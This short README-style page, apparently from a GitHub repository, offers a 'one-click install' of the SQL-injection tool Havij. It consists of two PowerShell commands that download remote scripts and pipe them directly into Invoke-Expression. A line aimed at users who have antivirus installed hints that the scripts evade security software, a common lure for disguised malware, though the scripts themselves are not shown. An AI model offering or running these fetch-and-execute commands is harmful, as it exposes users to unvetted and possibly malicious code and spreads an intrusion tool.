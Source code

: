 ## Havij one-click install (PowerShell)

If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
```

```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex
```
